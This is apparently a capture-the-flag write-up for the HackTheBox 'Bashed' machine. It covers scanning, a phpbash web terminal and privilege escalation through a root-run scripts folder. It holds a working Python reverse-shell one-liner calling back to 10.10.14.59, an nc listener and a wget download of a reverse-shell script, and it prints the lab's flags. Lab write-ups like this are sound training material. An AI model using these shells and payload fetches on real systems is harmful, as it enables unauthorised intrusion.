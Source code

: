 # HackTheBox **Bashed**  
**Difficulty:** Easy  
**Platform:** Linux  

## Reconnaissance:
I'll start with a simple nmap scan on the IP.

```bash
nmap -sC -sV -oN outputNMAP.txt $IP 
```

![OutputNMAP](img1.png)

We find port 80 open.Nothing intresting on index.html other then the "phpbash" reference.
Using gobuster we find an intresting directory, "dev".

```bash
gobuster dir -u http://10.129.11.194 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 16 -x html,php
```

![Gobuster](img2.png)

Checking the directory out we find the php file for phpbash.

![DevDir](img3.png)

This takes as to a an online terminal.

![OnlineTerminal](img4.png)

I am a creature of habit, thus I ll make a reverse shell.

On host:
```bash
rlwrap nc -lnvp 6666
```

On target:
```bash
python -c 'socket=__import__("socket");os=__import__("os");pty=__import__("pty");s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.59",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

I ll also upgrade the shell,on host:
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Done now we got a reverse shell.

![ReverseShell](img5.png)

I'll move to the "/home" directory and get the user flag.

```bash
cd /home
cd arrexel
cat user.txt
```

## User Flag : 977faa50a3d0102a8ab932418a00b151

Checking commands we can execute with sudo we see this:

```bash
sudo -l
```

![SudoL](img6.png)

So let's spawn a shell as script manager.

```bash
sudo -u scriptmanager /bin/bash
```
![ScriptManagerShell](img7.png)

It worked.Now that we are done with lateral movement, let's find a way for privelege escalation.

In the "/" directory something stands out, the directory "scripts".Looking inside it we find 2 files.

```bash 
cd /
ls 
cd /scripts
ls -la
cat test.py
```

![Scripts](img8.png)

We see the test.py script does not have SUID flag or belongs to the root user but it should write on a file owned by root.Using pspy we can see that all the python scripts in the folder scripts are executed as root.So I'll upload a reverse shell script in python and wait for 5 minutes

### On host
```bash
    python3 -m http.server -b 10.10.14.59 80
```

### On target
```bash
   wget http://10.10.14.59:80/reverseshell.py  
```

![Root](img9.png)

We got root! 

## Root Flag : 5cca1a72dd618097ef8b40dcab92ad46

